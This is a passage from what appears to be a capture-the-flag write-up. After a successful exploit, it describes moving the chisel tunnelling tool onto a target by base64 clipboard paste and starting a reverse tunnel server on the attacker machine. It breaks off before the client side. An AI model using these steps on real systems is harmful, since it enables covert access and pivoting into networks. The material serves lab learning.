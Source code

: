 Success the exploit worked:

![image](https://user-images.githubusercontent.com/76821053/128165342-18106b2a-cdc1-4031-9ccc-7c915e90067b.png)

After looking around, if we check the environment variables there is a MongoDB Web Interface running on port 8081:

![image](https://user-images.githubusercontent.com/76821053/128165515-f04720a8-3696-4936-9239-629014d073f5.png)

Let explore more and try set up a reverse proxy through the target machine using a tool called “chisel”.

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. We can find this tool [here](https://github.com/jpillora/chisel).

To set this up we need to upload this tool to the target machine, the problem is that we cannot use curl or wget to do so. I learned a very usefull way to do it, we are going to copy it through the clipboard.

First we need to encode the app with base64.

```
cat chisel | base64 -w400 > chisel_encoded
```

![image](https://user-images.githubusercontent.com/76821053/128165638-b0c12417-a72d-4b59-8227-598fecac8662.png)

Now we need to copy its encoded contents and paste it in the target machine like so:

```
cat <<EOF > chisel.base64
```

Now paste it in, with 'shift'+'insert' or 'ctrl'+'+'.

![image](https://user-images.githubusercontent.com/76821053/128165769-8f773a7e-be3b-420e-9b1f-a62e08713b6f.png)

To finnish press enter to give it a new line and break it with command EOF.

![image](https://user-images.githubusercontent.com/76821053/128165989-e1268eb1-c73e-4bf0-9311-f74a65edbcfa.png)

We have to decode the file and give it execute permission so we can run the program:

```
cat chisel.base64 | base64 -d > chisel

chmod +x chisel
```

![image](https://user-images.githubusercontent.com/76821053/128166031-adab6953-5216-4af3-99e7-34646cf95618.png)

With “chisel” we need to setup a server on the attacker machine and then a client on the target machine to connect back to our server:

On the attacker machine:

```
./chisel server -p 8000 --reverse
```
